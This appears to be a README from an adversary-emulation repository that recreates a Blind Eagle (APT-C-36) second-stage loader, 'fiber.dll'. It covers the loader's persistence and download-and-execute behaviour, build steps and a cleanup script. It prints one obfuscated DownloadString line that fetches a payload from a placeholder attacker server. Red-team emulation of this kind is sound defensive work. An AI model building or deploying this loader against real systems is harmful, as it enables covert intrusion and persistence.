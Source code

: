 # Fiber DLL

## Overview

Fiber is a second stage loader that Blind Eagle has used in operations<sup>[1](https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia),[2](https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/)</sup>. Fiber has three functions that it performs:

1) Copies the VBS loader to `C:\Windows\Temp` and renames it `OneDrive.vbs`

2) Downloads and executes the injector fsociety.dll

3) Establishes userland persistence by creating an `lnk` file in the users Startup folder posing as notepad.exe

The VAI method of `fiber.dll` takes one argument, a URL. The URL is typically passed in obfuscated form from the first stage loader to fiber.dll. fiber.dll will unreverse the URL and replace junk characters with ones to form a proper URL. On the other end of the URL is the AsyncRAT payload (asy.txt).

## Usage

`fiber.dll` first needs to be encoded in base64. `file-ops.py` has a function for this and can be used as follows:

Windows:
```PowerShell
py.exe ./file-ops.py -b path\to\repo\birdsofprey\Resources\fiber\fiber\bin\Release\fiber.dll
```

Linux/Mac:
```bash
python3 ./file-ops.py -b path/to/repobirdsofprey/Resources/fiber/fiber/bin/Release/fiber.dll
```

The URL on line 55 will also need to be updated prior to build with the IP address of the attacker server:

```
55               }.DownloadString(Strings.StrReverse("slx.pmuR/pmuR/<reverse-attacker-ip>//:ptth")); // http://<attacker-ip>/Rump/Rump.xls
```

## Build

Two build options are presented. The CLI can be used with devenv.exe to build the `fiber.sln` solution. Also instructions for the Visual Studio GUI are also included:


### CLI

```PowerShell
PS C:\<path>\<to>\birdsofprey\Resources\fiber> 'C:\Program Files | [x86]\Microsoft Visual Studio\<version>\<Professional|blank>\Common7\IDE\devenv.exe' fiber.sln /Build "Release"
```

### GUI

1) Open Solution in Visual Studio - this option is presented upon Visual Studio opening

    ![open](../../Screenshots/open-solution.png)

    ![fiber-sln](../../Screenshots/fiber-sln.png)

2) In the menu bar near the top of the window, change the dropdown from Debug to Release - this will build and remove any debugging assistance from the project:

    ![debug->release](../../Screenshots/asyncrat-vs-build-release.png)

3) In the menu bar at the top of the window, select Build -> Build Solution. The completed executables will be located in `birdsofprey\Resources\fiber\bin\Release`

    ![build](../../Screenshots/asyncrat-vs-build-solution.png)

## Cleanup

The `cleanup.ps1` script is located in the [cleanup](../../Cleanup/) section of this repo. It can be used to remove artifacts of persistence left by `fiber.dll`

`cleanup.ps1` does the following actions:

1) delete `OneDrive.vbs` from `C:\Windows\Temp`

2) delete `notepad.lnk` from `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`

## References and CTI

1) https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia

2) https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/